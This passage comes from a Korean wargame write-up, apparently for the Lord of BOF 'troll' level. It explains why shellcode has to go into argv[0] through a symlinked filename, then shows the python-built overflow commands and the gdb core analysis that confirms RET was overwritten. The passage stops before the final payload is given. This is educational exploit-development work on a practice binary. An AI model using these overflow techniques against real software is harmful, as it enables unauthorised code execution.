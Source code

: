 ```c
	memset(argv[1], 0, strlen(argv[1]));
}
```

-----

### 0x01. Analysis

 argc의 개수를 2로 정해졌으므로, argv[2]를 사용 하지 못한다.

buffer내용도 0으로 초기화 되며, argv[1]를 이용해서 argv[2]를 덮으려고 해도 길이가 48을 넘어 갈 수 없다.

그리고 argv[1]에 넣은 만큼 0으로 초기화 된다.



트롤 맞네... 😩😫



초기화 안된 영역은 argv[0]영역(실행파일 이름) 밖에 없다.

따라서 파일 이름에 쉘코드를 넣어주어야 한다.

실제 스택에 올라가는 주소를 확인 하기 위해 `troll`파일을 `aroll`파일로 복사한 후 심볼릭 링크를 설정하였다.

```
[orge@localhost orge]$ ln -s aroll `python -c 'print "A"*50+"S"*48+"A"*32'`
```

- `A` : 앞 50byte, 뒤 32byte, NOP Code 들어갈 부분 (마지막에 NOP코드를 넣지 않는 경우 제대로 쉘코드가 실행 안되는 경우가 있다.)
-  `S` : 48byte ShellCode 들어갈 부분

이제 만든 심볼릭 링크를 이용하여 실행하여 본다. (core를 생성하자)

```
[orge@localhost orge]$ ./`python -c 'print "A"*50+"S"*48+"A"*32'` `python -c 'print "\x90"*44+"\xbf\xbf\xbf\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜옜
Segmentation fault (core dumped)
```

core를 확인해보자.

```
[orge@localhost orge]$ gdb -c core
GNU gdb 19991004
Copyright 1998 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux".
Core was generated by `./AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASSSSSSSSSSSSSSSSSSSSSSSSSSS'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfbfbf in ?? ()
```

RET에 정상적으로 `0xbfbfbfbf`가 들어간 것을 확인 할 수 있다.
